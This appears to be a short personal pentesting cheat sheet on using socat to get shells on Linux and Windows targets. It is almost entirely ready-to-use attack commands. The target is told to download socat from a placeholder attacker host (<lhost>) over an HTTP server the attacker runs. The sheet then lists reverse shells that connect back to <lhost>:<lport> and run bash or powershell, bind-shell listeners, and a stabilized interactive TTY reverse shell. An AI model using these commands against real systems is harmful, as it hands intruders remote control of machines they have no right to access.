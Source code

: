 preferred way for linux machines

<h3>transfer socat no dependency on target machine</h3>
<h5>local</h5>
`cd ~/Documents`
`sudo python3 -m http.server 80`

<h5>target</h5>
`wget <lhost ip>/socat -O /tmp/socat`
<h5>target windows</h5>
`Invoke-WebRequest -uri <lhost>/socat.exe -outfile C:\\Windows\temp\socat.exe`


<h3>BASIC CONNECTION</h3>
`socat TCP-L:<port> -`
`socat TCP: <lhost>:<lport> EXEC:powershell.exe,pipes`
`socat TCP:<lhost>:<lport> EXEC:"bash -li"`

<h3>bind shells listeners</h3>
`socat TCP-L:<PORT> EXEC:"bash -li"`
`socat TCP-L:<PORT> EXEC:"bash -li"`
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

<h3>bind shell connect</h3>
`socat TCP:<rhost>:<rport> -`

<h3>reverse shell stable lister</h3>
`socat TCP-L:<port> FILE:`tty`,raw,echo=0`
mao dayn ning shell para ana
`socat TCP:<lhost>:<lport> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)